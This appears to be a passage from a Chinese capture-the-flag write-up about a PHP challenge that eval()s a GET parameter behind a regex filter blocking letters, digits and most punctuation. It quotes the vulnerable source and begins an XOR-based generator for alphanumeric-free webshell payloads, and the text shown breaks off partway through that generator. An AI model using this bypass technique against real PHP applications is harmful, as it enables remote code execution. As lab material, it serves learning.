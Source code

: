 ```javascript
if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```



# 2.源码分两个部分

## 第一部分：

## get参数导致任意文件执行

```javascript
$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
```

这里过滤了所有的字母和数字。此时正好可以使用无字母，数字bypass

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html



# 2.1 异或构造payload:



exp1:

```javascript
<?php
function gen($pl) {
    $aa = "";
    $bb = "";
    for ($j = 0; $j < strlen($pl); $j++) {
        for ($i = 0xa0; $i < 0xff; $i++) {
            if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
                $t = chr($i) ^ $pl[$j];
                if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
                    $aa .= chr($i);
                    $bb .= $t;
                    break;
                }
            }
```